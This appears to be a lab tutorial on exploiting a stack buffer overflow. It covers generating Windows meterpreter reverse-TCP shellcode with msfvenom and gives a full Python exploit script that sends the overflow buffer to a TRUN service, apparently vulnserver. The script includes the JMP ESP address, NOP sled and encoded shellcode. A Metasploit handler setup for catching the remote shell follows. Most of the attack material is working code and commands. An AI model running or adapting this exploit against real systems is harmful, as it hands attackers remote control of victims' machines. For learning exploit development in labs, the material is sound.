


Generating Shellcode and gaining shell
Generate ShellcodeReview the chapter
Shellcoding and in particular
Automate creation of a shellcodemsfvenom is a combination of the old msfpayload and msfencode, putting both of these tools into a single Framework
◇ msfpayload → generate the malicious payload
◇ msfencode → encode the payload in order to avoid bad characters
1. List available payloads:
2. Show options for a payload
msfvenom -p <name_of_the_msfvenom_payload> --list-options
In this example we will use windows/shell_reverse_tcp that connect back to attacker and spawn a command shell
msfvenom -p windows/shell_reverse_tcp --list-options
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.121 LPORT=4444 -a x86 --platform Windows -b '\x00' EXITFUNC=thread -f c
copy it without the semicolon at the end
In the script change the value of
• shellcode → with the shellcode generated now
• jmp_address → found in the chapter “Find the right module for JMP ESP” at point 3
• eip_address_location with the value found in the chapter “Find the Offset”
• s.connect with address and port of the service
• s.send with the value of the command of the service
#!/usr/bin/python
import socket
import sys
from time import sleep
jmp_address = '\xAF\x11\x50\x62'
eip_address_location = 2003
nops = '\x90' * 32 #if we are limited in space for the payload riduce this padding
shellcode = (
"\xd9\xc8\xd9\x74\x24\xf4\xbf\xb1\x83\x7e\x56\x5e\x31\xc9\xb1"
"\x5e\x31\x7e\x1a\x83\xc6\x04\x03\x7e\x16\xe2\x44\x7f\x96\xd9"
"\xa6\x80\x67\x86\x97\x52\x03\xcd\x85\x62\x45\x34\xa2\xd1\x59"
"\x3c\xe6\xc1\x6e\xf5\x4c\xcc\xfb\x8b\x78\x21\x03\x5a\xb8\xed"
"\xc7\xfc\x44\xec\x1b\xdf\x75\x3f\x6e\x1e\xb2\x89\x04\xcf\x6e"
"\x5d\x6c\x5d\x9e\xea\x30\x5e\x9f\x3c\x3f\xde\xe7\x39\x80\xab"
"\x5b\x43\xd1\xdf\x2b\x5b\x5a\x87\x8b\x0b\x5d\xeb\x4e\x62\x29"
"\x37\x19\x44\x2d\xcc\xad\x2d\xd0\x05\xfc\xf1\x7f\x68\x31\xfc"
"\x7e\xac\xf5\x1f\xf5\xc6\x06\x9d\x0e\x1d\x75\x79\x9a\x82\xdd"
"\x0a\x3c\x67\xdc\xdf\xdb\xec\xd2\x94\xa8\xab\xf6\x2b\x7c\xc0"
"\x02\xa7\x83\x07\x83\xf3\xa7\x83\xc8\xa0\xc6\x92\xb4\x07\xf6"
"\xc5\x10\xf7\x52\x8d\xb2\xee\xe3\x6e\x4d\x0f\xbe\xf8\x82\xc2"
"\x41\xf9\x8c\x55\x31\xcb\x13\xce\xdd\x67\xdc\xc8\x1a\xf1\xca"
"\xea\xf5\xb9\x9a\x14\xf6\xb9\xb3\xd2\xa2\xe9\xab\xf3\xca\x61"
"\x2b\xfb\x1e\x1f\x21\x6b\x61\x48\x34\x12\x09\x8b\x36\xf5\x95"
"\x02\xd0\xa5\x75\x45\x4c\x06\x26\x25\x3c\xee\x2c\xaa\x63\x0e"
"\x4f\x60\x0c\xa5\xa0\xdd\x65\x52\x58\x44\xfd\xc3\xa5\x52\x78"
"\xc3\x2e\x57\x7d\x8a\xc6\x12\x6d\xfb\xb0\xdc\x6d\xfc\x54\xdd"
"\x07\xf8\xfe\x8a\xbf\x02\x26\xfc\x60\xfc\x0d\x7e\x66\x02\xd0"
"\xb7\x1d\x35\x46\xf8\x49\x3a\x86\xf8\x89\x6c\xcc\xf8\xe1\xc8"
"\xb4\xaa\x14\x17\x61\xdf\x85\x82\x8a\xb6\x7a\x04\xe3\x34\xa5"
"\x62\xac\xc7\x80\xf0\xab\x38\x57\xdf\x13\x51\xa7\x5f\xa4\xa1"
"\xcd\x5f\xf4\xc9\x1a\x4f\xfb\x39\xe3\x5a\x54\x52\x6e\x0b\x16"
"\xc3\x6f\x06\xf6\x5d\x70\xa5\x23\x6d\x0b\xc6\xd4\x8e\xec\xce"
"\xb0\x8e\xed\xee\xc6\xb3\x38\xd7\xbc\xf2\xf9\x6c\xde\xe8\xd7"
"\x98\x77\xb5\xb2\x20\x1a\x46\x69\x66\x23\xc5\x9b\x17\xd0\xd5"
"\xee\x12\x9c\x51\x03\x6f\x8d\x37\x23\xdc\xae\x1d")
buffer = 'A' * eip_address_location + jmp_address + nops + shellcode
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer.'
s.send('TRUN /.:/' + buffer + '\r\n') #target the TRUN command
s.close()
except:
print '[*] Could not connect to target, exiting.'
sys.exit()
Set up the Handler
msf> use /exploit/multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set lhost ...
msf> set lport ...
msf> run -j
Run the script from the attacker
Now we should have catch the reverse shell
